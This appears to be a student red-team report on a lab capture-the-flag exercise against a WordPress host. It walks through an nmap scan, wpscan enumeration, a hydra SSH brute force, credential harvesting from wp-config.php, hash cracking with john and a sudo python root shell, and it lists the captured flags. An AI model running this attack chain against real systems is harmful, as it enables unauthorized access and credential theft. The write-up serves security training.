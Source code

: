 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

```
bash
$ nmap -sV 192.168.1.0/24
  # Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-28 16:19 PDT
Nmap scan report for 192.168.1.1
Host is up (0.00069s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.1.100
Host is up (0.00076s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.105
Host is up (0.00068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.110
Host is up (0.00080s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.115
Host is up (0.0017s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.90
Host is up (0.0000080s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (6 hosts up) scanned in 28.83 seconds
```

This scan identifies the services below as potential points of entry:

- Target 1
  - 22/tcp ssh        
  - 80/tcp http

The following vulnerabilities were identified on each target:

- Target 1
  - Port 22 was opening allowing an attacker to SSH into the server.
  - Port 80 was open allowing unsecure connections to the web application.
  - The wordpress user 'michael' has a simple password.
  - The web server is vulnerable to brute force attacks.
  - The mySQL username and password is stored in plain text.
  - The user 'steven' requires no password to run commands in the python library. This allows for privilege escalation by generating a shell using python.

 - Scan Used
  - wpscan --url http://192.168.1.110/wordpress --enumerate

![](https://github.com/smalani06/cs-final-project/blob/main/images/wps1.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/wps1.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Target 1
  - `flag1.txt`: _b9bbcb33e11b80be759c4e844862482d_
    - **Exploit Used**
      - Use hydra to brute force the password for user 'michael'.
        - ```hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh```
      - SSH into the server using michael's account.
        - ```ssh michael@192.168.1.110```
      - Navigate to the website directory
        - ```cd /var/www/html/```
      - Use grep to find the flag in the html files.
        - ```grep -E flag*. *.html```

![](https://github.com/smalani06/cs-final-project/blob/main/images/hydra.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/flag1.png)

  - `flag2.txt`: _fc3fd58dcdad9ab23faca6e9a36e581c_
    - **Exploit Used**
      - SSH into the server using michael's account.
        - ```ssh michael@192.168.1.110```
      - Use find command to search for flags.
        - ```find . -name flag*```

![](https://github.com/smalani06/cs-final-project/blob/main/images/findflag2.png)

  - `flag3.txt`: _afc01ab56b50591e7dccf93122770cd2_
    - **Exploit Used**
      - Look for the mysql username and password in the wp-config.php files.
        - ```find . -name *wp-config*```
        - ```nano ./wordpress/wp-config.php```
      - Log in to the mysql database by using the password found above.
        - ```mysql -u root -p```
      - Look at the tables and search for flags in the wp_posts table.
        - ```USE wordpress;```
        - ```SHOW TABLES;```
        - ```select * from wp_posts where post_content like '%flag%';```

![](https://github.com/smalani06/cs-final-project/blob/main/images/wp-config.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/login.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/tables.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/flag3.png)

  - `flag4.txt`: _715dea6c055b9fe3337544932f2941ce_
    - **Exploit Used**
      - After logging into the mySQL database, we checked the table wp_users where the user's password hashes were stored.
        - ```SELECT * FROM wp_users;```
      - Used john the ripper to crack user steven's password.
        - ```john wp_hashes.txt```
      - Connected to the server via SSH using steven's password.
      - List the allowed (and forbidden) commands for the invoking user steven.
        - ```sudo -l```
      - Since NOPASSWD is set for /usr/bin/python/, we can use python to escalate our privilege to root.
        - ```sudo python -c 'import pty;pty.spawn("/bin/bash")'```
      - Use find to locate flag4.
        - ```find . -name flag*```
        - cat /root/flag4.txt

![](https://github.com/smalani06/cs-final-project/blob/main/images/sshsteven.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/findflag4.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/flag4.png)
